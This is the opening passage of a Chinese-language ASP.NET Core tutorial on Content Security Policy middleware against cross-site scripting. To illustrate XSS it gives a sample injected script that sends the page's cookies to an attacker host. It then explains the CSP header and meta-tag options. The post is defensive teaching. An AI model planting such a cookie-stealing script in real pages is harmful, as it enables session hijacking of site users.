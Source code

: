 ```yaml
---
title: '[鐵人賽 Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy)'
author: John Wu
tags:
  - ASP.NET Core
  - iT 邦幫忙 2018 鐵人賽
  - CSP
  - Security
  - Middleware
categories:
  - ASP.NET Core
date: 2018-01-15 12:00
featured_image: /images/ironman/i27-3.png
---
```


跨網站腳本 (Cross-Site Scripting, XSS) 攻擊是常見的攻擊手法，有效的阻擋方式是透過網頁內容安全政策 (Content Security Policy, CSP) 規範，告知瀏覽器發出的 Request 位置是否受信任，阻擋非預期的對外連線，加強網站安全性。  
本篇將介紹 ASP.NET Core 自製 CSP Middleware 防止 XSS 攻擊。  
另外，做範例的過程中，剛好發現 **iT 邦幫忙** 沒有擋 Clickjacking，所以就順便補充。  

> iT 邦幫忙 2018 鐵人賽 - Modern Web 組參賽文章：  
 [[Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy)](https://ithelp.ithome.com.tw/articles/10196896)  



## XSS 介紹

攻擊者可能透過任何形式的漏洞，在網站中安插惡意的程式碼，例如：  
```html
<script>
    var req = new XMLHttpRequest();
    req.open("GET", "https://attacker.johnwu.cc?cookie="+document.cookie);
    req.send();
</script>
```
當使用者開啟頁面，Cookie 就被送走了。情境如下：  

![[鐵人賽 Day27] ASP.NET Core 2 系列 - 網頁內容安全政策 (Content Security Policy) - XSS 介紹](/images/ironman/i27-3.png)  

## CSP 介紹

CSP 是瀏覽器提供網站設定白名單的機制，網站可以告知瀏覽器，該網頁有哪些位置可以連、哪些位置不能連。現行大部分的瀏覽器都有支援 CSP，可以從 [Can I use Content Security Policy](http://caniuse.com/contentsecuritypolicy) 查看支援的瀏覽器及版本。  

CSP 的設定方式有兩種：  
1. HTTP Header 加入 `Content-Security-Policy: {Policy}`  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **並終止該行為執行**。  
2. HTTP Header 加入 `Content-Security-Policy-Report-Only: {Policy}`  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **但會繼續執行** 。  
  > 主要用於測試用，怕網站直接套上 CSP 導致功能不正常。  
3. HTML 加入 `<meta>`  
  在 HTML `<head>` 區塊加入 `<meta http-equiv="Content-Security-Policy" content="{Policy}">`。  
  當有不符合安全政策的情況，瀏覽器就會提報錯誤， **並終止該行為執行**。  
  > `<meta>` 的方式不支援 **Report-Only** 的方式。  
